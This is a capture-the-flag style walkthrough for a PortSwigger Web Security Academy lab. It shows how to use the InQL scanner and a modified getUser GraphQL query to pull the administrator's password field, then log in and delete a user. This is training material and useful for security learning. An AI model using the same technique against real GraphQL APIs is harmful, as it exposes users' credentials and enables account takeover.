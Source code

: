 # [Accidental exposure of private GraphQL fields](https://portswigger.net/web-security/graphql/lab-graphql-accidental-field-exposure)

```
The user management functions for this lab are powered by a GraphQL endpoint.

The lab contains an access control vulnerability whereby you can induce the API
to reveal user credential fields.

To solve the lab, sign in as the administrator and delete the username carlos


```

- ### There is an access control vulnerability.
- ### Induce the API to reveal user credential fields

<br>

1. Login as peter
2. Send the login Post request to Repeater
`POST /graphql/v1 HTTP/2`

#### The request:
```HTTP
POST /graphql/v1 HTTP/2
Host: 0ad600ae033e31fd80d82b1400e00015.web-security-academy.net
Cookie: session=ZH9c2h82oKmfd0FIs41gc7f1H5Eofiei; session=IBQkjhPYR7JeDQEP7mOneAGXTZ7TICnX
Content-Length: 232
Accept: application/json
Content-Type: application/json
Origin: https://0ad600ae033e31fd80d82b1400e00015.web-security-academy.net
Referer: https://0ad600ae033e31fd80d82b1400e00015.web-security-academy.net/login

{"query":"\n    mutation login($input: LoginInput!) {\n        login(input:
$input) {\n            token\n            success\n        }\n
}","operationName":"login","variables":{"input":{"username":"wiener","password":"peter"}}}
```
<br>

**NEXT**
> Right-click -> extensions -> InQL GraphQL Scanner -> Generate Queries with InQL scanner
> Click on the InQL tab, and open the folder for the scan you just did
> Then select: queries -> getUser.graphql

<br>

#### This reveals in the window on the rignt the query:
```'GraphQL
query {
    getUser(id: Int!) {
        id
        password
        username
    }
}
```
<br>

- **Because the goal is to Induce the API to reveal user credential fields**
- **Then that means that the query above means you gotta substitute the Int! for an actual number**

- But first, right-click on that getUser.graphql query and send to Repeater
- Then, change Int! to 1
- Guessing 1 is the administarator's id number
```'GraphQL
query {
    getUser(id: 1) {
        id
        password
        username
    }
}
```

![GraphQL-lab-02](https://github.com/LinuxUser255/Web-Security-Academy-Series/assets/46334926/3cb75a77-9820-4dfa-a69f-f95c958973bf)



### Now log in as the administrator, go to admin panel and delete carlos


